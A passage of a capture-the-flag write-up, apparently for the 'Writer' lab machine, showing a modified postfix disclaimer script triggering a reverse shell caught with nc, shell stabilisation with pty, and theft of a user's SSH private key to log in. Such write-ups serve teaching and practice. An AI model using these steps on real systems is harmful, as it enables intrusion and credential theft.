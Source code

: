 Afterwards, we will copy the modified disclaimer file to ```/etc/postfix/disclaimer``` (because I notice that the modified /etc/postfix/disclaimer gets overwritten every time I execute the script) and execute the script to get a reverse shell. 

```
kyle@writer:~$ cp disclaimer /etc/postfix/disclaimer && python3 send.py
[*] Payload is generated : test message
[***]successfully sent email to kyle@writer.htb:
```

Now, we will have obtained the reverse shell. We will first stabilize the shell. However, we noticed that we have only obtained the reverse shell for the user ```john```.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 50386
bash: cannot set terminal process group (1243409): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ix$ python3 -c 'import pty; pty.spawn("/bin/bash")'
john@writer:/var/spool/postfix$ export TERM=xterm
export TERM=xterm
john@writer:/var/spool/postfix$ stty cols 132 rows 34
stty cols 132 rows 34
john@writer:/var/spool/postfix$ id
id
uid=1001(john) gid=1001(john) groups=1001(john)
```
### Obtaining private key for SSH
Next, what we have to do is to save the ```id_rsa``` file into our local machine so that we can SSH into ```john```

```
john@writer:/$ cd /home/john/.ssh
cd /home/john/.ssh
john@writer:/home/john/.ssh$ ls -la
ls -la
total 20
drwx------ 2 john john 4096 Jul  9 12:29 .
drwxr-xr-x 4 john john 4096 Aug  5 09:56 ..
-rw-r--r-- 1 john john  565 Jul  9 12:29 authorized_keys
-rw------- 1 john john 2602 Jul  9 12:29 id_rsa
-rw-r--r-- 1 john john  565 Jul  9 12:29 id_rsa.pub
john@writer:/home/john/.ssh$ cat id_rsa

┌──(kali㉿kali)-[~/Desktop]
└─$ nano id_rsa   
                                                                                                 
┌──(kali㉿kali)-[~/Desktop]
└─$ chmod 600 id_rsa 

──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa john@10.10.11.101                                     
Last login: Wed Jul 28 09:19:58 2021 from 10.10.14.19
john@writer:~$ 
```
